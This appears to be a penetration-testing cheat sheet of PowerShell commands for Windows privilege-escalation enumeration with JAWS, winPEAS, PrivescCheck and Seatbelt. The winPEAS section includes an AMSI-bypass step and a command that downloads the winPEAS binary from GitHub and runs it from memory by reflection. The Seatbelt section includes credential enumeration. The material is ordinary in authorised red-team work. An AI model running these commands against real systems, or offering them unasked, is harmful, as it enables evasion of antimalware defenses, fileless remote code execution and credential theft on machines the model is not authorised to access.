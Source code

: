 
#### JAWS

* [https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

```
PS > .\jaws-enum.ps1 -OutputFileName out.txt
```


#### winPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)

Run from memory:

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > Invoke-Binary winPEASany.exe quiet log
Or
PS > [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
PS > $url = "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe"
PS > $wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
PS > [winPEAS.Program]::Main("quiet log")
```


#### PrivescCheck

* [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

```
PS > Invoke-PrivescCheck -Extended | tee out.txt
```


#### Seatbelt

* [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1)

```
PS > .\Seatbelt.exe CredEnum
PS > .\Seatbelt.exe ScheduledTasks -outputfile=out.txt
PS > Invoke-Seatbelt -Command "-group=all"
PS > Invoke-Seatbelt -Command "-group=system"
PS > Invoke-Seatbelt -Command "-group=user"
```



